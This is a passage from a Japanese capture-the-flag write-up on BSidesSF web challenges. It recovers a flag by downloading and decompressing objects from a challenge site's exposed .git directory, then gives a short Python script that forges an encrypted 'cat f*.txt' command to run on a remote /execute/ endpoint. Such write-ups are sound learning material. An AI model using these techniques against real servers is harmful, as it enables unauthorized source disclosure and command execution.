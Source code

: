 ```
I made this website all by myself using these tools
- html
- notepad++
- git
- apache
```

ということなので `http://theyear2000.ctf.bsidessf.net/.git/logs/HEAD` にアクセスすると

```
0000000000000000000000000000000000000000 e039a6684f53e818926d3f62efd25217b25fc97e Mark Zuckerberg <thezuck@therealzuck.zuck> 1486853661 +0000	commit (initial): First commit on my website
e039a6684f53e818926d3f62efd25217b25fc97e 9e9ce4da43d0d2dc10ece64f75ec9cab1f4e5de0 Mark Zuckerberg <thezuck@therealzuck.zuck> 1486853667 +0000	commit: Fixed a spelling error
9e9ce4da43d0d2dc10ece64f75ec9cab1f4e5de0 e039a6684f53e818926d3f62efd25217b25fc97e Mark Zuckerberg <thezuck@therealzuck.zuck> 1486853668 +0000	reset: moving to HEAD~1
e039a6684f53e818926d3f62efd25217b25fc97e 4eec6b9c6e464c35fff1efb8444dd0ac1ae67b30 Mark Zuckerberg <thezuck@therealzuck.zuck> 1486853672 +0000	commit: Wooops, didn't want to commit that. Rebased.
```

と出てきました。

`http://theyear2000.ctf.bsidessf.net/.git/objects/9e/9ce4da43d0d2dc10ece64f75ec9cab1f4e5de0` を取ってきて `zlib.decompress` すると `tree bd72ee2c7c5adb017076fd47a92858cef2a04c11` と出てきました。

さらに `http://theyear2000.ctf.bsidessf.net/.git/objects/bd/72ee2c7c5adb017076fd47a92858cef2a04c11` を取ってきて `zlib.decompress` すると後ろに `7baff32394e517c44f35b75079a9496559c88053` というハッシュが出てきました。

最後に `http://theyear2000.ctf.bsidessf.net/.git/objects/7b/aff32394e517c44f35b75079a9496559c88053` を取ってきて `zlib.decompress` するとフラグが表示されました。

```
FLAG:what_is_HEAD_may_never_die
```

## [Web 250] delphi-status

```python
import requests

def pad(s):
  l = 16 - len(s)
  return s + chr(l) * l

def xor(s, t):
  res = ''
  for a, b in zip(s, t):
    res += chr(ord(a) ^ ord(b))
  return res

k = '04fd99529a313748699280542b897817'.decode('hex')
z = '00000000000000000000000000000000'

p = xor(k, pad('cat f*.txt')).encode('hex') + z
print requests.get('http://delphi-status-e606c556.ctf.bsidessf.net/execute/' + p).content
```

これでフラグが出てきました。よく分かっていません…。

```
FLAG:a1cf81c5e0872a7e0a4aec2e8e9f74c3
```

## 感想

Web 全完です。やったー。
